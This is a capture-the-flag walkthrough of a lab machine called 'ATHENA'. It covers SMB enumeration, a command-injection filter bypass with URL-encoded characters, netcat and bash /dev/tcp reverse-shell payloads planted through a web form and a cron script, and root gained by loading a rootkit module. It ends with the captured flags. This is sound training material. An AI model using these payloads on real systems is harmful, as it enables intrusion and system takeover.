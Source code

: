 ```yaml
---
sticker: emoji//1fab6
---
```


# ATHENA

## ENUMERATION

***

### OPEN PORTS

***

| PORT | SERVICE |
| ---- | ------- |
| 22   | SSH     |
| 80   | HTTP    |
| 139  | SMB     |
| 445  | SMB     |

## RECONNAISSANCE

***

We got anonymous login enabled at `smb`, let's check it out:

```
smbclient -L \\\\10.10.214.108\\ -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	public          Disk
	IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
SMB1 disabled -- no workgroup available
```

As we can see, we got a `public` share, let's take a look:

![](gitbook/cybersecurity/images/Pasted%20image%2020250423162152.png)

We got a file, let's get it and view the contents:

![](gitbook/cybersecurity/images/Pasted%20image%2020250423163005.png)

We got an endpoint, let's proceed with the web application then:

![](gitbook/cybersecurity/images/Pasted%20image%2020250423163046.png)

Nothing weird in here, let's go to the specified route:

```
http://10.10.214.108/myrouterpanel/
```

We can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250423163143.png)

We can test some basic stuff, for example, let's try a simple ping to `127.0.0.1` to check the behavior:

![](gitbook/cybersecurity/images/Pasted%20image%2020250423163528.png)

Let's begin exploitation

## EXPLOITATION

***

As we can see, the ping goes through, based on this, we can try some command injection payloads, let's use a basic one to check the behavior:

![](gitbook/cybersecurity/images/Pasted%20image%2020250423163619.png)

There seems to be some blacklist surveilling which characters we put in the `ip`, we can try modifying the payloads until we get an advanced one, let's refer to our command injection notes, for example, here are a list of characters that may be helpful:

```bash
%3b      # URL-encoded ; (semicolon)
%26      # URL-encoded & (ampersand)
%7c      # URL-encoded | (pipe)
%0a      # URL-encoded newline (\n)
%09      # URL-encoded tab (space bypass)
%20      # URL-encoded space
+        # Often treated as a space in form data
${IFS}   # Internal Field Separator (space replacement)
```

I tried using a payload from a previous machine on `HackTheBox`:

```bash
ip=8.8.8.8%0Abash%09-c%09"id"%0A&submit=
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250423164508.png)

There we go, it worked, let's craft a reverse shell:

```bash
ip=8.8.8.8%0Abash%09-c%09"nc -c /bin/sh 10.6.34.159 9001"%0A&submit=
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250423164854.png)

If we check our listener:

![](gitbook/cybersecurity/images/Pasted%20image%2020250423164905.png)

There we go, we got our connection, let's proceed with privilege escalation.

## PRIVILEGE ESCALATION

***

First step is to stabilize our shell:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250423165109.png)

After using linpeas, I found there is a `/usr/share/backups` directory owned by `www-data` with the group `athena`, let's take a look:

![](gitbook/cybersecurity/images/Pasted%20image%2020250423165916.png)

We got a `backup.sh` file, let's look at the contents:

```sh
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```

The script does the following:

1. Creates a backup directory at `~/backup` (likely `/home/www-data/backup` since it's owned by `www-data`).
2. Copies **all files** from `/home/athena/notes/*` into the backup directory.
3. Zips the backup into `notes_backup.zip`.
4. Deletes all `.txt` and `.sh` files in `/home/athena/backup/`.
5. Prints a completion message.

But none of this is relevant, we know that `athena` may be running this as a cronjob, we can modify the contents of the file to embed a reverse shell:

```bash
# Add reverse shell payload
bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1' &
```

If we start our listener a wait a little bit:

![](gitbook/cybersecurity/images/Pasted%20image%2020250423170454.png)

We need to stabilize our shell again:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

Let's check our sudo privileges:

![](gitbook/cybersecurity/images/Pasted%20image%2020250423170829.png)

We can run something called `venom.ko`, let's have more info of it, we can do:

```
athena@routerpanel:/$ modinfo /mnt/.../secret/venom.ko
modinfo /mnt/.../secret/venom.ko
filename:       /mnt/.../secret/venom.ko
description:    LKM rootkit
author:         m0nad
license:        Dual BSD/GPL
srcversion:     93A81462832D4CF52F916D7
depends:
retpoline:      Y
name:           venom
vermagic:       5.15.0-69-generic SMP mod_unload modversions
```

As we can see, this is a rootkit written by `m0nad`, let's use GitHub:

![](gitbook/cybersecurity/images/Pasted%20image%2020250423171008.png)

This rootkit refers to something called `Diamorphine`, let's check the repo:

![](gitbook/cybersecurity/images/Pasted%20image%2020250423171043.png)

There we go, we got our way to get into root, since we need to send a `signal 64` to become root, we can do this:

```
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sleep 10 & # This will show us the pid
kill -64 2865
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250423171951.png)

If we check our id, it doesn't seem to work, this is because the signal has been modified to `57` instead of `64` on this rootkit, we can now do it again:

```
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sleep 10 & # This will show us the pid
kill -57 pid
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250423174845.png)

As seen, we are root:

```
athena@routerpanel:/$ cat /root/root.txt
aecd4a3497cd2ec4bc71a2315030bd48
```

```
athena@routerpanel:/$ cat /home/athena/user.txt
857c4a4fbac638afb6c7ee45eb3e1a28
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250423175116.png)
